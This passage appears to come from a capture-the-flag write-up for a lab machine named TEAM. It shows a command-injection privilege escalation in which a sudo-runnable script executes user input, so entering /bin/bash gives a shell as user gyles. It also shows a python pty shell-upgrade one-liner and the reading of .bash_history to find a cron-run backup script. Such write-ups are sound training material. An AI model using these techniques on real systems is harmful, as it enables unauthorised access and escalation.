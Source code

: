 So I can run the `/home/gyles/admin_checks` file as the `gyles` user. I'll see what's in that file :
```
dale@TEAM:~$ cat /home/gyles/admin_checks 
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

It seems that I can exploit the error command in this script. To do this, I set up create a payload that runs `/bin/bash` as user `gyles` :

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: azerty
Enter 'date' to timestamp the file: /bin/bash
The Date is 
whoami
gyles
python3 -c 'import pty;pty.spawn("/bin/bash")'
gyles@TEAM:~$ 
```
So I enter a random name and enter `/bin/bash` as the date, which gives me a shell as the user `gyles`. I then stabilize the shell with the python command `python3 -c 'import pty;pty.spawn("/bin/bash")'`  
Looking at the user’s home directory I see that the user left the `.bash_history` where I can find all commands that have been entered by the user : 
```
gyles@TEAM:/home/gyles$ cat .bash_history 
[...]
nano /usr/local/bin/main_backup.sh 
sudo nano /usr/local/bin/main_backup.sh 
[...]
cronjob -l
crontab -l
[...]
```
I see that a file that looks interesting `/usr/local/bin/main_backup.sh` has been modified by the user.  
I also see some mention of `cronjob` and `crontab` which are commands that refer to scheduled tasks or recurring jobs that run automatically at specific times and intervals.  

